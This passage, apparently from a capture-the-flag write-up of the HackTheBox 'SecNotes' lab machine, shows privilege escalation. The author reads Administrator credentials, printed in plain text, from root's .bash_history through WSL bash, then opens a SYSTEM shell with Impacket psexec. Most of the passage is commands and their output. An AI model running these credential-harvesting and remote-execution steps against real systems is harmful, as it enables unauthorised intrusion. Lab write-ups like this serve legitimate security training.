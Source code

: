 After starting bash and looking around the system, we find the `Administrator` credentials in root's `.bash_history` file:
```
C:\Windows\System32>bash
mesg: ttyname failed: Inappropriate ioctl for device
python -c 'import pty;pty.spawn("/bin/bash")'
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
```

We can then psexec as administrator and get the root flag:
```
root@darkstar:~# /usr/share/doc/python-impacket/examples/psexec.py 'administrator:u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97 cmd.exe
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file DmaHNXRy.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service twnE on 10.10.10.97.....
[*] Starting service twnE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>type c:\users\administrator\desktop\root.txt
7250cd<redacted>
```
